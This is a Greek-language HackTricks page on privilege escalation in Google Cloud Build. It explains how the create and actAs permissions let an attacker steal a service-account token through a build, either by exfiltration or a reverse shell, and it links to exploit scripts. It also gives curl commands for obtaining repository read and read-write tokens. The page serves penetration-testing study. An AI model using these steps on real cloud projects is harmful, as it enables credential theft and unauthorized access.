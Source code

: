 # GCP - Cloudbuild Privesc

{{#include ../../../banners/hacktricks-training.md}}

## cloudbuild

Για περισσότερες πληροφορίες σχετικά με το Cloud Build, ελέγξτε:

{{#ref}}
../gcp-services/gcp-cloud-build-enum.md
{{#endref}}

### `cloudbuild.builds.create`, `iam.serviceAccounts.actAs`

Με αυτή την άδεια μπορείτε να **υποβάλετε μια κατασκευή cloud**. Η μηχανή cloudbuild θα έχει στο σύστημα αρχείων της από **προεπιλογή ένα διακριτικό του Service Account του cloudbuild**: `<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`. Ωστόσο, μπορείτε να **υποδείξετε οποιοδήποτε service account μέσα στο έργο** στη διαμόρφωση του cloudbuild.\
Επομένως, μπορείτε απλά να κάνετε τη μηχανή να εξάγει το διακριτικό στον διακομιστή σας ή **να αποκτήσετε μια αντίστροφη σύνδεση μέσα σε αυτήν και να αποκτήσετε το διακριτικό** (το αρχείο που περιέχει το διακριτικό μπορεί να αλλάξει).

Μπορείτε να βρείτε το αρχικό σενάριο εκμετάλλευσης [**εδώ στο GitHub**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py) (αλλά η τοποθεσία από την οποία παίρνει το διακριτικό δεν λειτούργησε για μένα). Επομένως, ελέγξτε ένα σενάριο για να αυτοματοποιήσετε τη [**δημιουργία, εκμετάλλευση και καθαρισμό ενός ευάλωτου περιβάλλοντος εδώ**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.sh) και ένα σενάριο python για να αποκτήσετε μια αντίστροφη σύνδεση μέσα στη μηχανή cloudbuild και [**να το κλέψετε εδώ**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.py) (στον κώδικα μπορείτε να βρείτε πώς να υποδείξετε άλλα service accounts)**.**

Για μια πιο λεπτομερή εξήγηση, επισκεφθείτε [https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)

### `cloudbuild.builds.update`

**Πιθανώς** με αυτή την άδεια θα μπορείτε να **ενημερώσετε μια κατασκευή cloud και απλά να κλέψετε το διακριτικό του service account** όπως έγινε με την προηγούμενη άδεια (αλλά δυστυχώς κατά τη στιγμή της συγγραφής αυτού του κειμένου δεν μπόρεσα να βρω κανέναν τρόπο να καλέσω αυτή την API).

TODO

### `cloudbuild.repositories.accessReadToken`

Με αυτή την άδεια, ο χρήστης μπορεί να αποκτήσει το **διακριτικό πρόσβασης ανάγνωσης** που χρησιμοποιείται για την πρόσβαση στο αποθετήριο:
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
### `cloudbuild.repositories.accessReadWriteToken`

Με αυτή την άδεια, ο χρήστης μπορεί να αποκτήσει το **token πρόσβασης για ανάγνωση και εγγραφή** που χρησιμοποιείται για την πρόσβαση στο αποθετήριο:
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
### `cloudbuild.connections.fetchLinkableRepositories`

Με αυτή την άδεια μπορείτε να **λάβετε τα αποθετήρια στα οποία έχει πρόσβαση η σύνδεση:**
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{{#include ../../../banners/hacktricks-training.md}}
